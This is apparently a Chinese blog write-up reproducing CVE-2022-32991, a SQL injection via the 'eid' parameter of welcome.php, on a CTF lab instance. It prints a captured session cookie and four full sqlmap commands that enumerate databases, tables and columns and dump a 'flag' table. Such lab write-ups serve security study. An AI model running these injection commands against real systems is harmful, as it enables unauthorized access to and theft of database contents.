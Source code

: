```yaml
---
title: CVE-2022-32991
subtitle:
date: 2025-03-14T13:11:14+08:00
slug: 85472c2
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

尝试注册账号，注册完成以后登录

![](images/0dab76148ac78a186c13d411543798f9.png)

根据提示

![](images/02ddae09f0f72d3d7ebbad4f0ad43799.png)

该SQL注入位于welcome.php处。但是参数根据CVE官方应该是通过eid参数的SQL注入，但是上述页面并不是eid参数，需要继续查找。

![](images/1755879bd17168ddc6869dda07eae1f8.png)

在此处发现eid参数

![](images/244f0196e4e82a542f3b56ad63d33d23.png)

抓包找到所需要的参数，因为该页面需要登录访问，所以需要获得Cookie绕过身份验证，并添加-user-agent参数绕过客户端验证。

![](images/8d563db15e5e04624d859a8fc73492df.png)



```
Cookie: PHPSESSID=25p9b92ovsqudtuepvmi7jgvma
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
```

Sqlmap进行攻击

```
 sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch --dbs
```

得到数据库

![](images/1a48213ec268f830405b986cd6745473.png)

爆出数据库以后，进行爆表

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" --tables
```



![](images/683694ef17178f038bc2277de14cf1ec.png)

得到表名再去爆破列名

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" --columns
```



![](images/1d577c691a349bbad1317a6a47772633.png)

继续爆破字段

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" -C "flag" --dump
```



![](images/eced71d2a9282e89527650a514d70945.png)



总结

```
--cookie                        #绕过身份验证
--random-agent或--user-agent    #绕过客户端验证
--batch                         #默认后续sqlmap操作都为Y
--p                             #指定sqlmap注入的传参参数
```
